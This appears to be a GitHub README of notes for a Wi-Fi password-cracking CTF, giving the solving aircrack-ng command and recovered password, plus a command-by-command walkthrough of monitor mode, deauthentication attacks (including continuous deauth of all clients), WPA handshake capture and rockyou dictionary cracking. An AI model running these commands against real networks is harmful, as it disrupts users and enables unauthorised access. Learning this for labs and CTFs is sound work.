 # Solving the ctf 
  1. `sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 02:1A:11:FF:D9:BD -e 'James Honor 8' NinjaJc01-01.cap`
  2. found the password: greeneggsandham

---

## Life cycle
  ```sh
  1. use airmon-ng to enter monitor mode
  2. [opcional] force the clients from the target network to de-authenticate to speed up the process of gathering the 4 way handshake
  3. use airdump-ng to capture packets passing through the interface(monitor mode interface) into pcap files
  4. use aircrack-ng to crack the password from the pcap file
  ```

---

## Armon-ng(used to change interaces into monitor mode)
  - monitor mode: `sudo airmon-ng start wlan0` (assuming wlan0 is your interface's name)
  - the name will likely be: `wlan0mon`
  - kill processes using that network adapter: `airmon-ng check kill`

---

## Aireplay-ng(force the clients to deauth to speed up the process of getting the passwd hash)
  
  ### deauthenticate specific client:
  <details closed>
    - example use: `sudo aireplay-ng --deauth 10 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon`

    - `--deauth 10`: Sends 10 deauthentication packets.
    - `-a 00:11:22:33:44:55`: The MAC address of the target access point.
    - `-c AA:BB:CC:DD:EE:FF`: The MAC address of the client to deauthenticate.
    - `wlan0mon`: Yor wireless interface in monitor mode
  </details>

  ### deauthenticate all clients:
  <details closed>
    - example use: `sudo aireplay-ng --deauth 0 -a 00:11:22:33:44:55 wlan0mon`

    - `--deauth 0`: Sends deauthentication packets continuously (0 means infinite).
    - `-a 00:11:22:33:44:55`: The MAC address of the target access point.
    - `wlan0mon`: Your wireless interface in monitor mode.
  </details>

---

## Airodump-ng(captures packets from an interface in monitor mode)
  - `sudo airodump-ng wlan0mon`

  - example use: `sudo airodump-ng -c <channel> --bssid <BSSID> -w capture wlan0mon`
    - `-c <channel>`: Specifies the channel of the target network.
    - -`b <BSSID>`: Specifies the BSSID (MAC address) of the target access point.
    - `-w capture`: Writes captured packets to a file named capture-01.cap (increments the file number for subsequent captures).

---

## Aircrack-ng(cracks the hash of the passphrase from the 4-way-handshake pcap file)
  - Important switches
  ```sh
  -b (to specify the bssid)
  -e (to specify the essid)
  -w (to specify a wordlist)
  ```

  - example use: `sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 00:11:22:33:44:55 capture.cap`
